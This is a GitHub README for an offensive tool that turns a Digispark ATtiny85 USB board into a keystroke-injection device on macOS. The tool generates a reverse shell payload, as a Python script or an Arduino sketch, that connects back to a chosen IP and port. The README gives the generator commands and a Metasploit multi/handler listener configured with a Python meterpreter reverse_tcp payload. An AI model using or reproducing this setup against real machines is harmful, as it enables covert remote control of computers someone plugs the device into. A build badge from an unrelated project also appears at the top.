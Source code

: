 ![Build Status](https://github.com/subsurface/subsurface/workflows/Mac/badge.svg)

## What is digispark?
Digispark is a Attiny85 based microcontroller that can be used as a trusted HID-MIDI device. This project addresses its vulnerability, which injects malicious code into the machine. 

## Digispark reverse shell

The script creates either a reverse shell python script or arduino sketch for digispark. The script is compatible with metasploit.</br>
This Digispark sketch is intended to run on OS X operating System.


## Features

- Creates a reverse shell python script
- Creates a Arduino sketch for digispark

## Arduino Configuration

To flash the microcontroller, you need to add this link to your boards maneger</br>
Arduino > File > Preferences > Additional Boards Manager URLs: 
```
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
```

Once the link is added, head over to Tools > Bord > Boards Manager, search for "Digistump AVR Boards" and make sure it is installed.


## Installation

Clone this repository
``` 
git clone https://github.com/https-sam/digispark_reverse_shell.git
```

```
cd scripts
```

`-p and -i tags` are required.
```
python3 payloadGenerator.py -i IP ADDRESS -p PORT
```

`-py True` is optional, which only creates a python reverse shell script.
```
python3 payloadGenerator.py -i IP Address -p PORT -py True
```


## Set up

Metsploit can be used as a listener
``` 
msfconsole
use multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport PORT
run
````



## License

MIT


- [Digistump](https://github.com/digistump/DigisparkArduinoIntegration/blob/master/libraries/DigisparkKeyboard/DigiKeyboard.h) - Library for digispark
- [Micronucleus](https://github.com/micronucleus/micronucleus) - processor
- [Metasploit](https://github.com/rapid7/metasploit-framework) 



